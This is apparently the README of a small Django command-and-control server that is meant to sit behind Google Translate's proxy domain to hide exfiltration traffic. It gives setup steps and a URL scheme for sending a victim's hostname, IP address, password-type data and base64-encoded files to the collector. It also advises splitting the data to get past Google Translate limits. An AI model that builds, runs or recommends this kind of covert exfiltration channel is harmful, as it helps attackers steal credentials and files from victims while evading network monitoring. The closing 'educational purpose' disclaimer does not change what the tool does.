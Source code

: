 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<hostname>/<ip>/<data_type>/<?hash_file>/<data>/``
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``hash_file`` is a flag to know if the exfiltrated data is a file or a string. You must send the hash of the file you want to upload to recreate the file. It allows the admin dashboard to know if it has to decode the received data or not. **(OPTIONAL)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded automatically on the admin dashboard. If it's a base64 data, you must split it into multiple strings otherwise Google Translate will limit you.

You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.
# FOR EDUCATIONAL PURPOSE ONLY
